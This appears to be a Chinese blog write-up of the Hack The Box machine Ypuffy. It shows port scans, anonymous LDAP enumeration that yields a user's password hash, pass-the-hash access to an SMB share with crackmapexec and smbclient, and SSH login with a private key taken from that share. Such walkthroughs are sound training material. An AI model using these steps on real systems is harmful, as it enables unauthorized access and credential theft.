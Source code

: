 ```yaml
---
title: Ypuffy（LDAP空连接）
categories:
- training
tags:
- training
---
```

## scan
```
22/tcp  open  ssh         OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2e:19:e6:af:1b:a7:b0:e8:07:2a:2b:11:5d:7b:c6:04 (RSA)
|   256 dd:0f:6a:2a:53:ee:19:50:d9:e5:e7:81:04:8d:91:b6 (ECDSA)
|_  256 21:9e:db:bd:e1:78:4d:72:b0:ea:b4:97:fb:7f:af:91 (ED25519)
80/tcp  open  http        OpenBSD httpd
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YPUFFY)
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
Service Info: Host: YPUFFY

Host script results:
|_clock-skew: mean: 1h35m01s, deviation: 2h53m13s, median: -4m59s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6)
|   Computer name: ypuffy
|   NetBIOS computer name: YPUFFY\x00
|   Domain name: hackthebox.htb
|   FQDN: ypuffy.hackthebox.htb
|_  System time: 2019-02-05T06:46:27-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-02-05 19:46:27
|_  start_date: N/A
```
第一步，发现了不少于2个端口开放，简便起见，用nessus扫描一下。

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-29-09/3.PNG)

## smb
```
smbclient -L 10.10.10.107
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Anonymous login successful
OS=[Windows 6.1] Server=[Samba 4.7.6]
tree connect failed: NT_STATUS_ACCESS_DENIED
---
smbmap -P 139 -H 10.10.10.107
smbmap -P 445 -H 10.10.10.107
连接被拒绝
```
## web
连接一直重置。
```
--2019-02-05 20:44:45--  (try:18)  http://10.10.10.107/
Connecting to 10.10.10.107:80... connected.
HTTP request sent, awaiting response... No data received.
Retrying.
```
## port389: ldap

参考资料：[LDAP基础：6：使用ldapsearch进行数据查询](https://blog.csdn.net/liumiaocn/article/details/83990918)
```
远程LDAP服务器支持具有NULL或空基础对象的搜索请求。 这允许在不事先了解目录结构的情况下检索信息。 与NULL BIND结合使用，匿名用户可以使用“LdapMiner”等工具查询LDAP服务器。

请注意，有正当理由允许使用NULL基础的查询。
例如，LDAP协议的版本3中需要提供对根DSA特定条目（DSE）的访问，其中包含有关支持的命名上下文，身份验证类型等的信息。 这也意味着合法用户可以在不事先了解其结构的情况下在目录中查找信息。
```

**ldapsearch -h 10.10.10.107 -p 389 -x -b dc=hackthebox,dc=htb**

```
-h 指定ip
-p 指定端口
-x 简单验证
-b 设置DN，可以通过nmap脚本扫描到DN内容
```


>nmap -p 389 --script ldap-search ypuffy.htb

通过搜索关键字，发现用户名alice1978，LM密码`0B186E661BBDBDCF6047784DE8B9FD8B`

`crackmapexec ypuffy.htb -u alice1978 -H 0B186E661BBDBDCF6047784DE8B9FD8B --share`
使用该口令列出445端口共享的文件，alice文件夹具有读写权限

`smbclient -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash //ypuffy.htb/alice`
发现一个文件my_private_key.ppk，这是一个ssh私钥

`ssh -i alice.key alice1978@ypuffy.htb`
得到一个普通用户权限

## 总结
对漏洞的成功利用，基于对服务的了解。

- ldap协议是什么？
Lightweight Directory Access Protocol，轻量级目录访问协议。LDAP的目的是**快速响应查找需求**。一次写入，多次读取。弱数据库。

